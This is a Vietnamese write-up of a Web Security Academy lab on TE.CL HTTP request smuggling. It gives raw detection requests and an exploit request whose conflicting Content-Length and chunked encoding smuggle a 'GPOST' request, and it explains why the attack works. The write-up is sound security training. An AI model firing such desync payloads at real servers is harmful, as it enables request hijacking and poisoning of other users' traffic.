


# Lab: HTTP request smuggling, basic TE.CL vulnerability

## Detect

Hai request test đầu tiên cho thấy parser của front-end và back-end không xử lý body giống nhau:

```http
POST / HTTP/1.1
Host: 0a0500130431a09f80951cc500c60004.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X
```



```http
POST / HTTP/1.1
Host: 0a0500130431a09f80951cc500c60004.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X
```



Phản hồi khác nhau, đặc biệt là `Timeout`, cho thấy đây là bài TE.CL:

- Front-end hiểu request theo `Transfer-Encoding`.
- Back-end lại hiểu theo `Content-Length`.

## Vì sao có thể smuggle

Trong TE.CL, front-end tin `Transfer-Encoding: chunked` và chuyển request xuống sau khi nghĩ rằng body chunked đã kết thúc. Back-end thì bỏ qua chunked và chỉ đọc đúng số byte trong `Content-Length`.

Chính sự lệch pha này tạo ra khoảng trống để dữ liệu thừa ở cuối request trở thành request kế tiếp.

## Exploit

Mục tiêu của lab này là smuggle một request để request kế tiếp trên back-end bị đổi method thành `GPOST`.

```http
POST / HTTP/1.1
Host: 0a0500130431a09f80951cc500c60004.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

56
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

0
```

Giải thích:

- `Content-Length: 4` khiến back-end chỉ đọc 4 byte đầu tiên của body.
- Front-end vẫn thấy đây là chunked request hợp lệ.
- Phần còn lại bắt đầu bằng `GPOST / HTTP/1.1` bị giữ lại trong connection.
- Ở request tiếp theo, ký tự đầu tiên của request mới sẽ được dùng để hoàn thiện body còn thiếu của request smuggled, nên back-end đọc được method giả `GPOST`.

Khi response trả về lỗi kiểu `Unrecognized method GPOST`, payload đã được smuggle thành công.
